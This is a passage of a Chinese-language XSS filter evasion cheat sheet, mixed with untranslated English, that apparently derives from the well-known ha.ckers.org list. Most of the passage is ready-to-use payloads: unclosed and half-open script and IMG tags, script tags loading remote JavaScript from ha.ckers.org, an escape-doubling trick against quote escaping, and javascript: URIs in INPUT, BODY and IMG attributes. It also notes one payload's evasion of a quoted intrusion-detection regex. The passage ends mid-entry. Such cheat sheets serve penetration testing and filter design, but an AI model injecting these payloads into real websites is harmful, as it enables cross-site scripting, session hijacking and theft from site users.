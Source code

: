 `<<SCRIPT>alert("XSS");//<</SCRIPT>`
### 没关闭的script标签
对于使用了 Gecko渲染引擎的Firefox 和 Netscape 8.1 ，你并不需要常规xss中”></SCRIPT>”这部分。 Firefox会帮你闭合标签，并且加入结束标签。多么的体贴啊！ Unlike the next one, which doesn’t effect Firefox, this does not require any additional HTML below it. 如果需要，你可以加入引号，但通常他并不是必须的。注意，我并不清楚这个代码被注入后html代码会闭合成什么样子。

`<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >`
### script标签中的协议解析
这个特殊的变体由 Łukasz Pilorz 提出，并且基于上文中 Ozh提出的协议解析绕过。这个xss例子工作在 IE, 使用IE渲染引擎的Netscape 以及加了在结尾的 Opera。这是非常有用的在输入长度受到限制。域名越短越好。 “.j”是有效的，不需要考虑编码问题因为浏览拿起可以自动识别在一个script标签中。

`<SCRIPT SRC=//ha.ckers.org/.j>`
### 半开的HTML/JavaScript xss向量
不同于 Firefox ，ie渲染引擎不会加入额外的数据到你的页面。但是它允许javascript指令在IMG标签中，这是有用的作为一个xss向量，因为它不需要一个结束的尖括号。你可以使用这个xss向量在任何html标签中，甚至没有用”>”闭合标签。 A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: `/((%3D)|(=))[^\n]*((%3C)|<)[^\n]+((%3E)|>)/` because it doesn’t require the end “>”. 它也是有效的去对付真实的xss过滤器，我曾经用半开的`<IFRAME` 标签替代 `<IMG` 标签去绕过过滤器。

`<IMG SRC="javascript:alert('XSS')"`
### 双开尖括号
使用一个开始尖括号(<)在向量结尾代替一个关闭尖括号（>）会有不同的影响在 Netscape Gecko 的渲染中。 Without it, Firefox will work but Netscape won’t。

`<iframe src=http://ha.ckers.org/scriptlet.html <`
### 转义javascript中的转义
当一个应用程序是输出用户自定义的信息到javascript代码中时，例如： `<SCRIPT>var a=”$ENV{QUERY_STRING}”;</SCRIPT>`。如果你想插入你自己的javascript代码进入它，但是服务器转义了其中的某些引号，这时你需要通过再转义被转义的字符来绕过它。因此使最终的输入代码类似于`<SCRIPT>var a=”\”;alert(‘XSS’);//”;</SCRIPT>` 。最终`\`转义了双引号前被服务器添加的`\`，从而使双引号不会被转义，因此触发xss向量。xss定位器使用这个方法。

`\";alert('XSS');//`
### 闭合title标签

titile标签内部不支持html代码，所有内容会被自动转义为普通字符。

`</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

### INPUT image##

`<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">`

### BODY image

`<BODY BACKGROUND="javascript:alert('XSS')">`

### IMG DYNSRC(视频剪辑) 

`<IMG DYNSRC="javascript:alert('XSS')">`

### IMG lowsrc（低分辨率图片）

`<IMG LOWSRC="javascript:alert('XSS')">`
### List-style-image
